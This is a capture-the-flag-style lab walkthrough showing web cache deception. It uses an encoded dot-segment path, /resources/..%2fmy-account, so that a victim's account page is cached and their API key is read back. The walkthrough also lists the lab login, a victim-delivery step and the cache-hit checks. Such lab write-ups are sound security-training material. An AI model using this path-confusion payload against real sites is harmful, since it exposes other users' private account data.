# Lab 3 — Exploiting origin server normalization for web cache deception

> [← Back to Web Cache Deception](../README.md)

---

## 🎯 Objective
The origin server normalizes encoded dot-segments. Exploit this to cache Carlos's account page under `/resources/` and steal his API key.

---

## 🪜 Steps

### Step 1 — Login (wiener:peter)


---

### Step 2 — Intercept and send to Repeater


---

### Step 3 — Test path handling
- `/my-account/abc` → 404

- `/my-accountabc` → 404


---

### Step 4 — Find delimiter via Intruder Sniper
Sniper attack, uncheck URL-encode. Only `?` returns **200 OK**.




---

### Step 5 — Test URL normalization on origin
Try: `GET /aaa/..%2fmy-account` → **200 OK** + API key visible.

Origin resolves the encoded dot-segment. Normalization confirmed.




---

### Step 6 — Identify cache rules (/resources/)
- 1st request → `X-Cache: miss`

- 2nd request → `X-Cache: hit` ✅




---

### Step 7 — Exploit: combine cache rule + normalization
Try: `GET /resources/..%2fmy-account`
- 1st → miss

- 2nd → **hit** ✅


---

### Step 8 — Deliver exploit to victim



---

### Step 9 — Get Carlos's API key
Request `GET /resources/..%2fmy-account?wcd` — cached response has Carlos's API key.





---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
When the origin normalizes encoded dot-segments but the cache does not, attackers craft URLs the cache treats as static but the origin resolves to sensitive pages.
